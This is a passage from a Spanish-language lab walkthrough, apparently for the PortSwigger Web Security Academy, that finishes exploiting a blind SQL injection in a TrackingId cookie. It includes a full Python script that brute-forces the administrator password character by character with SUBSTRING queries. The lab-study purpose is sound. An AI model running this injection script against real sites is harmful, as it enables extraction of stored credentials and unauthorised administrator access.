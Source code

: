 En esta última parte completamos la explotación de la inyección SQL ciega mediante la extracción carácter a carácter del campo ‘**password**‘.

Utilizamos Burp Intruder para automatizar el proceso, iterando sobre posiciones y posibles valores hasta reconstruir por completo la contraseña. Aprendes a usar funciones como ‘**SUBSTRING**‘ y a reconocer las respuestas válidas para cada intento.

Una vez extraída la contraseña, accedemos con ella como administrador para completar el laboratorio.

![Pasted_image_20250702183649.png](/Imagenes/Pasted_image_20250702183649.png)
![Pasted_image_20250702184020.png](/Imagenes/Pasted_image_20250702184020.png)
codigo llamado sqli.py
#!/usr/bin/env python3
from pwn import *
from termcolor import colored 
import requests 
import sys
import signal
import string
import time

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 

p1 = log.progress("SQLI")

def makeSQLI():

    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters: 
            cookies = {
                'TrackingId': f"@tYdW3Ti@pJdmnVo' and (select substring(password,{position},1) from users where username='administrator')='{character}' -- ",
                'session': "xkwHU4bggBmEx0ijIEHAYx0fgb60eemG"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0afd00540433ac10815c1df5003a00c5.web-security-academy.net", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()

Resultado
![Pasted_image_20250702190437.png](/Imagenes/Pasted_image_20250702190437.png)
![Pasted_image_20250702190536.png](/Imagenes/Pasted_image_20250702190536.png)
